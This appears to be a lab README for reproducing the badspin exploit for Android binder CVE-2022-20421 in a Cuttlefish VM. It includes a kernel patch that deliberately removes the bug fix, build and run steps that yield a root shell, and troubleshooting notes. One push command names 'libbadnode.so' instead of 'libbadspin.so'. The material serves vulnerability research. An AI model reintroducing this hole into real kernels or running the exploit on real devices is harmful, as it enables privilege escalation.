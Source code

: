 Instructions and overview to reproduce CVE-2022-20421 (https://github.com/0xkol/badspin/tree/main)
This reproduction uses cuttlefish, so an ARM server with KVM virtualization support is needed.
# Setup Cuttlefish
Roughly follow https://source.android.com/docs/devices/cuttlefish/get-started

First part to clone goes the same:
```sh
sudo apt install -y git devscripts equivs config-package-dev debhelper-compat golang curl
git clone https://github.com/google/android-cuttlefish
```

However, on the debian version I was on, libtinfo5 was no longer available, so I had to use libtinfo6.
Apply the following patch if there is an issue with this:
```diff
diff --git a/base/debian/control b/base/debian/control  
index 80a3be138..492b8d1e1 100644  
--- a/base/debian/control  
+++ b/base/debian/control  
@@ -13,7 +13,7 @@ Build-Depends: bazel [amd64],  
               libgoogle-glog-dev,  
               libgtest-dev,  
               libjsoncpp-dev,  
-               libtinfo5,  
+               libtinfo6,  
               libprotobuf-c-dev,  
               libprotobuf-dev,  
               libssl-dev,
```

Run the rest of the commands to install cuttlefish the same as on the website:
```sh
tools/buildutils/build_packages.sh
sudo dpkg -i ./cuttlefish-base_*_*64.deb || sudo apt-get install -f
sudo dpkg -i ./cuttlefish-user_*_*64.deb || sudo apt-get install -f
sudo usermod -aG kvm,cvdnetwork,render $USER
sudo reboot
```

Cuttlefish requires and android image and host package to run also. Follow instructions on the website and download host tools for android13 with a 5.10 kernel, and extract them both into the same folder.

# Building Badspin
Install android studio cli tools, and use those to install ndk.

Clone this repo, and compile badspin with:
```sh
cd src/
ANDROID_NDK_HOME=/path/to/android_sdk/ndk/25.2.9519653/ make all
```

This will produce a `libbadspin.so` shared library.

# Building Vulnerable Kernel

I used the `common-android13-5.10-2025-03`, which did have the bug fixed, but I reintroduced the bug. The commit which fixes the bug is https://android.googlesource.com/kernel/common/+/19bb609b45fbbab4cfd9a8765dc8cb9c90cfda34.

To reintroduce the bug, clone the kernel as follows:
```sh
mkdir common-android13-5.10-2025-03
cd common-android13-5.10-2025-03
repo init --partial-clone --no-use-superproject -u https://android.googlesource.com/kernel/manifest -b common-android13-5.10-2025-03
repo sync -c -j8
```
It may take quite a while to clone the kernel.

Then apply the following patch:
```diff
diff --git a/drivers/android/binder.c b/drivers/android/binder.c  
index bebc9827ef05..521e7d638ba5 100644  
--- a/drivers/android/binder.c  
+++ b/drivers/android/binder.c  
@@ -1556,7 +1556,8 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
       }  
       ret = binder_inc_ref_olocked(ref, strong, target_list);  
       *rdata = ref->data;  
-       if (ret && ref == new_ref) {  
+       // patch out CVE-2022-20421 fix to run badspin exploit  
+       //if (ret && ref == new_ref) {  
               /*  
                * Cleanup the failed reference here as the target  
                * could now be dead and have already released its  
@@ -1564,9 +1565,9 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
                * with strong=0 and a tmp_refs will not decrement  
                * the node. The new_ref gets kfree'd below.  
                */  
-               binder_cleanup_ref_olocked(new_ref);  
-               ref = NULL;  
-       }  
+               //binder_cleanup_ref_olocked(new_ref);  
+               //ref = NULL;  
+       //}  
   
       binder_proc_unlock(proc);  
       if (new_ref && ref != new_ref)
```

Then build the kernel using the following command (note: it may take a lot of memory (~20 GB) to build the kernel):
```sh
tools/bazel run //common-modules/virtual-device:virtual_device_aarch64_dist
```

The kernel image will be present at `out/android13-5.10/dist/Image`, and the init ramdisk will be present at `out/android13-5.10/dist/initramfs.img`. Copy these files over to the arm server.

# Running Custom Kernel
Navigate to folder where android image and host tools was extracted to earlier. Copy the `Image` and `initramfs.img` files to this folder, and to start cuttlefish run:
```sh
HOME=$PWD ./bin/launch_cvd -kernel_path=./Image -initramfs_path=initramfs.img -cpus 8
```
Note badspin requires at least 5 CPUs I think, I used 8 to be safe.

# Running Badspin Exploit
Starting in the same folder as previously, run the following command to upload `libbadspin.so` to cuttlefish device:
```sh
HOME=$PWD ./bin/adb push libbadnode.so /data/local/tmp
```

Get a shell on the device with the command (run command until it finds the device):
```sh
HOME=$PWD ./bin/adb shell
```

To run the badspin exploit, in the adb shell, run:
```sh
LD_PRELOAD=/data/local/tmp/libbadspin.so sleep 1
```

It seems to have a 10%-20% success rate, if the device crashes, just re upload `libbadspin.so`, reconnect `adb shell`, and try again.
Badspin repo seems to suggest exploit is unstable for first few minutes device is up, so waiting a bit before running may help.

If exploit succeeds, it should spawn a root shell.

# Badspin Issues Encountered
- First issue: kernel hangs after `triggering UAF` printed
	- This is caused by not enough cpus being available in cuttlefish VM
	- Raise CPU number from 2 to 8
- Second Issue: `epool_ctl` fails with`ENOSPC` when setting up timerfd race extension trick
	- This is caused by epoll user watch limit in `/proc/sys/fs/epoll/max_user_watches` being hit
	- Exploit makes about 50000 epoll entries per try
	- Limit is around 16600
	- Instead set amount used around 15000
